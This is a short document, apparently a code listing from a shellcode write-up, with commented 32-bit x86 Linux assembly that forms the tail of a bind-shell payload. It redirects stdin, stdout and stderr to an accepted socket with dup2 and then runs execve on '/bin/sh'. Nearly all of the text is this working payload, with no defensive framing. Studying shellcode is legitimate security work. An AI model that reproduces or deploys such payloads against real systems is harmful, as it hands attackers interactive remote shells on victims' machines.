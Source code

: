 ```


; CHANGE STD FILE DESCRIPTORS
; int dup2(int oldfd, int newfd);
; syscall number: 63 (0x3f)
;
; Argument Values:
; oldfd = value in eax returned by accept()
; newfd = 0, 1, 2 iteratively (stdin, stdout, stderr)

  mov ebx, eax ; preserve clientfd from ACCEPT call
  mov cl, 3 ; 3 file descriptors (stdin, stdout, stderr)

dup_descriptors:
  dec cl ; hack for loop to work with values 2,1,0 instead of 3,2,1
  mul edx ; zero out eax
  mov al, 0x3f
  int 0x80 ; dup2 stdin
  inc cl ; hack for loop to work with values 2,1,0 instead of 3,2,1
  loop dup_descriptors


; EXECVE SHELL
; int execve(const char *filename, char *const argv[], char *const envp[]);
; syscall number: 11 (0xb)
;
; Argument Values:
; *filename = Memory address of a null terminated string "/bin/sh"
; *argv[] = [*"/bin/sh", 0x00000000]
; *envp = NULL

  xor ecx, ecx

  ; This has to be pushed in reverse because of how things move to the stack
  ; Pushing /bin/sh null terminated string
  push cx
  push dword 0x68732f2f ; push / / s h
  push dword 0x6e69622f ; push / b i n

  mov ebx, esp ; Store pointer to "/bin/sh" in ebx
  push ecx ; Push NULL
  push ebx ; Push *filename
  mov ecx, esp ; Store memory address pointing to memory address of "/bin/sh"
  mov al, 0xb
  int 0x80 ; Execute SHELL


; EXIT
  xor eax, eax
  mov al, 1;
  int 0x80;
```
